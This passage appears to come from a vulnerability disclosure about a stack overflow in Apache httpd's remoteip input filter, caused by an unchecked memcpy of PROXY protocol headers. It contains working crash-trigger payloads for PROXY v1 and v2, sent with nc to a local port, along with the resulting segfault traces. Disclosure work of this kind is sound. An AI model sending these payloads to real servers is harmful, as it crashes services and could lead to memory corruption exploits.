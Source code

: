 The provided proof of concept vulnerability triggers are now ready to be
delivered to `localhost:6666`.

## Stack overflow from unsafe memcpy handling PROXY v1 and V2 messages

In the `remoteip_input_filter` function the data read from the bucket brigade
carrying the attacker input (pointed to by `ptr`, of len `len`) is copied into
the `ctx->header` structure, at an offset of `ctx->rcvd` bytes using `memcpy`:

```
memcpy(ctx->header + ctx->rcvd, ptr, len);
```

There is no enforcement that the destination buffer is sized appropriately so
when `len` is larger than `sizeof(ctx->header)` a classic buffer overflow
occurs.

### Example reproduction

Any PROXY v1 request with a "PROXY " prefix, a trailing `\r\n` and sufficient
size will trigger this vulnerability.

```
printf "PROXY aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\r\n" | nc localhost 6666
```

Stack trace:
```
Thread 3 "httpd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff2e0b700 (LWP 17165)]
apr_brigade_destroy (b=0x6161616161616161) at buckets/apr_brigade.c:52
52          apr_pool_cleanup_kill(b->p, b, brigade_cleanup);
```

Any valid PROXY v2 request (e.g. supported version, cmd, protocol and address family) and sufficient size will also trigger this vulnerability.

```
printf "\x0D\x0A\x0D\x0A\x00\x0D\x0A\x51\x55\x49\x54\x0A\x21\x32\x08\x6f\x6faaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc localhost 6666
```

Stack trace:
```
Thread 3 "httpd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff2e0b700 (LWP 17197)]
apr_brigade_destroy (b=0x6161616161616161) at buckets/apr_brigade.c:52
52          apr_pool_cleanup_kill(b->p, b, brigade_cleanup);
```

## Stack overflow from unsafe strcpy handling PROXY v1 messages
